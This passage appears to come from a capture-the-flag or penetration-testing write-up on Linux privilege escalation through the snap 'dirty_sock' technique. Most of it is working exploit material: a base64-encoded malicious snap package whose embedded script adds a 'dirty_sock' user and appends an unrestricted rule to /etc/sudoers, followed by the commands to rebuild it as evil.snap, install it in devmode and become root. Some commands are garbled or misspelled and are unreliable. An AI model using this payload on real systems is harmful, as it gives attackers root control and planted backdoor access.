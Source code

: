 ```
whoami
```

### Snap

Search for snap hook exploit .snap file and we can find the following link [Linux Privilege Escalation via snapd (dirty\_sock exploit)](https://initblog.com/2019/dirty-sock/).&#x20;

```
echo "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw" | xargs | tr -d ' '
```

Copy the output and recreate the package:

```
cd /tmp
pytho -c 'print "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD
//////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29
jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1
EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2Q
gLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N
1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciB
leHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiA
gJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAA
BaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3F
qfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4
wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRj
NEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPt
vjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAA
AAAAAPgMAAAAAAAAEgAAAAACAA" + "A"*4256 + "=="' | base64 -d > evil.snap

sudo /usr/bin/snap install evil.snap --devmode
cat /etc/passwd
sudo dirty_sock > password dirty_sock
sudo su > password dirty_sock

whoami
# Expected Output
root
```
